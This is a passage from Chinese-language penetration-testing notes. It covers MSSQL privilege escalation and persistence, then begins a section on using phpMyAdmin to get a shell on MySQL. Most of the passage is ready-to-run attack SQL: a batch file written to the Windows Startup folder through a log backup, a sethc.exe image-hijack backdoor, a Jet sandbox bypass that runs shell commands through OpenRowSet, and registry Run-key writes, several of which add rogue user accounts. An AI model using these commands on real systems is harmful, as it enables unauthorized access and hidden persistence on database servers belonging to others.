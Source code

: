     3. 备份启动项：
        ```
        alter database [master] set RECOVERY FULL
        create table cmd (a image)
        backup log [master] to disk = 'c:\cmd1' with init
        insert into cmd (a) values (0x(batcode))
        backup log [master] to disk = 'C:\Documents and Settings\Administrator\「开始」菜单\程序\启动\start.bat'
        drop table cmd
        ```

    4. 映像劫持

        `xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe','debugger','reg_sz','c:\windows\system32\cmd.exe'`

    5. 沙盒模式提权：

        a：`exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet.0\Engines','SandBoxMode','REG_DWORD',0;` # 关闭沙盒模式

        b：`Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Database=c:\windows\system32\ias\ias.mdb','select shell("net user mstlab mstlab /add")');` #or c:\windows\system32\ias\dnary.mdb string 类型用此。
        开启 OpenRowSet：`exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE;`

    6. xp_regwrite 操作注册表

        `exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows\currentversion un','black','REG_SZ','net user test test /add'`

        开启 xp_oacreate : exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE;

---

## mysql
**提权**
- **文章**
    - [Windows下三种mysql提权剖析](https://xz.aliyun.com/t/2719)

- **通过 phpmyadmin 来 getshell**
    - 确认绝对路径

        利用 log 变量，猜绝对路径

        ![image](../../../assets/img/安全/笔记/业务软件vul整合笔记/1.png)

        或者直接查询 `select @@basedir;`

